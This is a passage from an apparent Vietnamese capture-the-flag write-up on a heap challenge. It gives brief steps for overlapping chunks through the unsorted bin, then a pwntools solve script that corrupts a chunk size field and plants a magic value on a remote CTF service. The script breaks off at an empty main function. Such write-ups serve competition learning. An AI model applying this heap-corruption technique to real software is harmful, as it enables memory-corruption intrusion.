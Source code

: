 - tiếp theo nữa là free() chunk A và malloc lại chunk A để tránh gộp chunk
- free chunk B để nó vào unsorted-bin 
- malloc với số byte phù hợp để nó chừa lại đoạn ta sẽ malloc tiếp theo 

script 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
#io = process()
io = remote('heap.ctf.prgy.in', 1337,ssl=True)

def alloc(size):
    io.sendlineafter(b"fate:", b"1")
    io.sendlineafter(b"warrior:", str(size).encode())

def free(idx):
    io.sendlineafter(b"fate:", b"2")
    io.sendlineafter(b":", str(idx).encode())

def write(idx, data):
    io.sendlineafter(b"fate:", b"3")
    io.sendlineafter(b":", str(idx).encode())
    io.sendafter(b":", data)

def check():
    io.sendlineafter(b"fate:", b"4")

def solve():

    input()

    alloc(0x18)
    alloc(0x68)
    alloc(0x68)


    write(0, b"A"*0x18 + p64(0xe1))
    write(2, b"A"*0x20 + p64(0xDEADBEEFCAFEBABE))


    free(0)
    alloc(60)



    free(1)


    alloc(0x60)
    check()


    io.interactive()


def main():

```
